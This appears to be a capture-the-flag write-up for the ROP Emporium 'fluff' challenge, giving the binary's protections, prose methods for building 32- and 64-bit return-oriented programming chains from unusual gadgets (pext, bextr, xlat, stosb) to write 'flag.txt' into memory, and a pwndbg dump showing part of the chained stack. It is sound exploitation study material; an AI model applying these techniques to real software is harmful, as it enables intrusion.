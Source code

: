 # Fluff

Objective:

Basically same as write4 but you have to use unusual gadgets

Security:

|RELRO|STACK CANARY|NX|PIE|RPATH|RUNPATH|Symbols|FORTIFY|Fortified|Fortifiable|FILE|ASLR|
|-|-|-|-|-|-|-|-|-|-|-|-|
|Partial RELRO|No canary found|NX enabled|No PIE|No RPATH|No RUNPATH|72) Symbols|No|0|3|ret2win32|ASLR Disabled|

### 32 Bit Analysis

- Methodology: We need to make use of the pext gadget which makes use of a mask and the value 0xb0bababa and extract continguous bits to detination register. More details is in the source code. We control the mask in ebp register which we will need to configure such that in our destination register edx. We then use the pop ecx gadget and the bswap ecx gadget to populate the ecx register with the data section which we want to write to before we use the xchg gadget to swap 8 bits from the ecx register to edx register.

### 64 Bit Analysis

- Methodology: We need to make use of the bextr gadget which will take rcx[rdx[0:8]:rdx[0:8]+rdx[8:16]] and store it into rbx. You can control rcx and rdx. Can just set rdx to any 0xXX00 for simplicity, where we will just look at the 0th bit and take the first XX number of bits from the 0th bit of rcx. For rcx, we need to obtain the value of each character of "flag.txt" - the current value of rax - 0x3ef2 as we will be adding rcx with 0x3ef2 and in our next gadget xlat, we will be ADDING the current value of rdx to al which are the lowest 8 bits of the rax register. After which we will use the stosb gadget to swap 1 byte from rax to rdi.

- Breakpoint at `stosb` gadget

    ```
    pwndbg> c
    Continuing.
    
    Breakpoint 3, 0x0000000000400639 in questionableGadgets ()
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    ───────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────
    *RAX  0x66
    *RBX  0x4003b9 ◂— add    byte ptr [rax], al
    *RCX  0x4003b9 ◂— add    byte ptr [rax], al
    *RDX  0x2000
    *RDI  0x601028 (data_start) ◂— 0x0
     RSI  0x7ffff7da1743 (_IO_2_1_stdout_+131) ◂— 0xda3670000000000a /* '\n' */
     R8   0xb
     R9   0x7ffff7fdc1f0 (_dl_fini) ◂— push   rbp
     R10  0x7ffff7feda30 (strcmp+4784) ◂— pxor   xmm0, xmm0
     R11  0x246
     R12  0x400520 (_start) ◂— xor    ebp, ebp
     R13  0x0
     R14  0x0
     R15  0x0
     RBP  0x9090909090909090
    *RSP  0x7fffffffdc30 —▸ 0x40062a (questionableGadgets+2) ◂— pop    rdx
    *RIP  0x400639 (questionableGadgets+17) ◂— stosb  byte ptr [rdi], al
    ────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────
       0x40062a <questionableGadgets+2>     pop    rdx
       0x40062b <questionableGadgets+3>     pop    rcx
       0x40062c <questionableGadgets+4>     add    rcx, 0x3ef2
       0x400633 <questionableGadgets+11>    bextr  rbx, rcx, rdx
       0x400638 <questionableGadgets+16>    ret    
     
     ► 0x400639 <questionableGadgets+17>    stosb  byte ptr [rdi], al            <data_start>
       0x40063a <questionableGadgets+18>    ret    
        ↓
       0x40062a <questionableGadgets+2>     pop    rdx
       0x40062b <questionableGadgets+3>     pop    rcx
       0x40062c <questionableGadgets+4>     add    rcx, 0x3ef2
       0x400633 <questionableGadgets+11>    bextr  rbx, rcx, rdx
    ─────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────
    00:0000│ rsp 0x7fffffffdc30 —▸ 0x40062a (questionableGadgets+2) ◂— pop    rdx
    01:0008│     0x7fffffffdc38 ◂— 0x2000
    02:0010│     0x7fffffffdc40 ◂— 0x3fc2e1
    03:0018│     0x7fffffffdc48 —▸ 0x400628 (questionableGadgets) ◂— xlatb  
    04:0020│     0x7fffffffdc50 —▸ 0x4006a3 (__libc_csu_init+99) ◂— pop    rdi
    05:0028│     0x7fffffffdc58 —▸ 0x601029 (data_start+1) ◂— 0x0
    06:0030│     0x7fffffffdc60 —▸ 0x400639 (questionableGadgets+17) ◂— stosb  byte ptr [rdi], al
    07:0038│     0x7fffffffdc68 —▸ 0x40062a (questionableGadgets+2) ◂— pop    rdx
    ───────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────
     ► f 0         0x400639 questionableGadgets+17
       f 1         0x40062a questionableGadgets+2
       f 2           0x2000
       f 3         0x3fc2e1
       f 4         0x400628 questionableGadgets
       f 5         0x4006a3 __libc_csu_init+99
       f 6         0x400639 questionableGadgets+17
       f 7         0x40062a questionableGadgets+2
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    pwndbg> x $rax
    0x66:	Cannot access memory at address 0x66
    ```